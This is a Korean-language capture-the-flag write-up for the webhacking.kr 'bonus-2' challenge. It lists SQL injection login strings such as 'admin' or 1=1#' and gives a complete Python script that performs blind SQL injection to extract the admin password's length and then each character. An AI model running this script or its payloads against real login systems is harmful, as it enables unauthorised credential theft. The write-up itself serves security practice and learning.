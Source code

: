 `or 1#`부터 시작해서 `admin' or 1=1#` 등등 뭐든지 나오라는 형식으로 계속 넣었다. 그리고 그 결과로 로그인을 시도했을 때 그 반응의 경우가 총 3개임을 알았다.

![image-20220627212702977](../img/image-20220627212702977.png)

아마도 ID 검사 이후에 비밀번호도 검사하는 루틴이 존재하는 듯한데, 참의 존재를 판별할 수 있는 "Wrong password!" 경우 덕분에 Blind Injection이 가능할 것 같다. ID 란에서 비밀번호를 찾아가는 쿼리를 던지면서 "Fail"은 거짓, "Wrong"은 참으로 인식하면 되겠다.

<br>

## writeup

```python
import requests
cookie = {'PHPSESSID':'reikne9qst09rsuof44ggfcnsb'}

def my_request(uid : str,upw : str):
	url = f'https://webhacking.kr/challenge/bonus-2/'
	params = {
		'uuid':uid,
		'pw':upw
	}
	response = requests.post(url=url,data=params,cookies=cookie)
	return response


def find_pw_len():
	for cnt in range(1,50):
		uid = f'admin\' and length(pw)>{cnt}#'
		upw = '1'
		response = my_request(uid,upw)
		if "Fail" in response.text:
			print("I get password's len:",cnt)
			break
	return cnt


def find_pw(pw_len):
	print("Now, I will find pw")
	res = ""
	for cnt in range(1,pw_len+1):
		for c in range(0x2f,0x7e):
			uid = f'admin\' and left(pw,{cnt})=\'{res}'+chr(c)+'\'#'
			upw = '1'
			response = my_request(uid,upw)
			if "Wrong" in response.text:
				print("[!] {}'s char:{}".format(cnt,chr(c)))
				res += chr(c)
				break
	return res

def solve():
	pw_len = find_pw_len()
	res = find_pw(pw_len)
	print(res)

if __name__ == "__main__":
	solve()
```
